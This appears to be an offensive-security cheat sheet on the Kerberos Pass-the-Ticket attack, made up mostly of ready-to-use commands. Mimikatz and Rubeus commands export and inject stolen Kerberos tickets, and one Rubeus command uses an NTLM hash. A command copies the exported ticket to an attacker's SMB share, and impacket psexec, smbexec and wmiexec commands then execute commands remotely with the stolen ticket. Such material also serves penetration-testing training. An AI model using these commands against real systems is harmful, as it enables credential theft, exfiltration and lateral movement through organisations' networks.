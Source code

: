 # Pass The Ticket

## Pass-the-Ticket

Pass-the-Ticket takes advantage of the TGS by exporting service tickets, injecting them into memory (on the target) or caching as environment variable (on Kali Linux) and then authenticating with the injected/cached ticket via. Kerberos-based authentication as opposed to NTLM-based authentication.

* This attack does not require the service/user to have local admin rights on the target.

PTT via the compromised host using the following steps: (exporting -> inject into memory -> psexec.exe)

```powershell
# METHOD 1: Mimikatz
mimikatz> sekurlsa::tickets /export          # export tickets
mimikatz> kerberos::ptt [ticket_name.kirbi]  # inject into memory
cmd> psexec.exe \\target.hostname.com cmd    # authN to remote target using ticket

# METHOD 2: Rubeus
cmd> Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt
```

PTT via Kali Linux with the following steps: (exporting -> cache as env var -> psexec.py/smbexec.py/wmiexec.py)

```bash
# export tickets -> copy to Kali
mimikatz> sekurlsa::tickets /export                             
cmd> copy [ticket.kirbi] \\192.168.119.XXX\share\[ticket.kirbi]

# use ticket_converter.py to convert .kirbi to .ccache
# https://github.com/Zer1t0/ticket_converter
$ python ticket_converter.py ticket.kirbi ticket.ccache

# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
